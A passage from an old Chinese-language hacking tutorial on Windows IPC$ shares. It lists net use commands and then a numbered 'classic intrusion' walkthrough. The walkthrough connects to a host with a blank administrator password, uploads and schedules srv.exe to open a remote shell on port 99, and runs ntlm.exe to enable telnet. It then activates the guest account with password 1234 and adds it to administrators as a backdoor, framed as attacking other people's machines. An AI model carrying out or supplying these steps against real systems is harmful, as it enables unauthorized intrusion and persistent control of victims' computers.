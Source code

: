 5设置复杂密码，防止通过ipc$穷举密码 

## 八 相关命令 

1)建立空连接: 
`net use \\IP\ipc$ "" /user:""`(一定要注意:这一行命令中包含了3个空格) 
2)建立非空连接: 
net use \\IP\ipc$ "用户名" /user:"密码" (同样有3个空格) 
3)映射默认共享: 
net use z: \\IP\c$ "密码" /user:"用户名" (即可将对方的c盘映射为自己的z盘，其他盘类推) 
如果已经和目标建立了ipc$，则可以直接用IP+盘符+$访问,具体命令 net use z: \\IP\c$ 
4)删除一个ipc$连接 
net use \\IP\ipc$ /del 
5)删除共享映射 
net use c: /del 删除映射的c盘，其他盘类推 
net use * /del 删除全部,会有提示要求按y确认 

## 九 经典入侵模式 

这个入侵模式太经典了,大部分ipc教程都有介绍,我也就拿过来引用了,在此感谢原创作者!(不知道是哪位前辈) 
1. C:\>net use \\127.0.0.1\IPC$ "" /user:"admintitrators" 
这是用《流光》扫到的用户名是administrators，密码为"空"的IP地址(空口令?哇,运气好到家了)，如果是打算攻击的话，就可以用这样的命令来与127.0.0.1建立一个连接，因为密码为"空"，所以第一个引号处就不用输入，后面一个双引号里的是用户名，输入administrators，命令即可成功完成。 
2. C:\>copy srv.exe \\127.0.0.1\admin$ 
先复制srv.exe上去，在流光的Tools目录下就有（这里的$是指admin用户的c:\winnt\system32\，大家还可以使用c$、d$，意思是C盘与D盘，这看你要复制到什么地方去了）。 
3. C:\>net time \\127.0.0.1 
查查时间，发现127.0.0.1 的当前时间是 2002/3/19 上午 11:00，命令成功完成。 
4. C:\>at \\127.0.0.1 11:05 srv.exe 
用at命令启动srv.exe吧（这里设置的时间要比主机时间快，不然你怎么启动啊，呵呵！） 
5. C:\>net time \\127.0.0.1 
再查查到时间没有？如果127.0.0.1 的当前时间是 2002/3/19 上午 11:05，那就准备开始下面的命令。 
6. C:\>telnet 127.0.0.1 99 
这里会用到Telnet命令吧，注意端口是99。Telnet默认的是23端口，但是我们使用的是SRV在对方计算机中为我们建立一个99端口的Shell。 
虽然我们可以Telnet上去了，但是SRV是一次性的，下次登录还要再激活！所以我们打算建立一个Telnet服务！这就要用到ntlm了 
7.C:\>copy ntlm.exe \\127.0.0.1\admin$ 
用Copy命令把ntlm.exe上传到主机上（ntlm.exe也是在《流光》的Tools目录中）。 
8. C:\WINNT\system32>ntlm 
输入ntlm启动（这里的C:\WINNT\system32>指的是对方计算机，运行ntlm其实是让这个程序在对方计算机上运行）。当出现"DONE"的时候，就说明已经启动正常。然后使用"net start telnet"来开启Telnet服务！ 
9. Telnet 127.0.0.1，接着输入用户名与密码就进入对方了，操作就像在DOS上操作一样简单！(然后你想做什么?想做什么就做什么吧,哈哈) 
为了以防万一,我们再把guest激活加到管理组 
10. C:\>net user guest /active:yes 
将对方的Guest用户激活 
11. C:\>net user guest 1234 
将Guest的密码改为1234,或者你要设定的密码 
12. C:\>net localgroup administrators guest /add 
将Guest变为Administrator^_^(如果管理员密码更改，guest帐号没改变的话，下次我们可以用guest再次访问这台计算机) 

## 十 总结: 
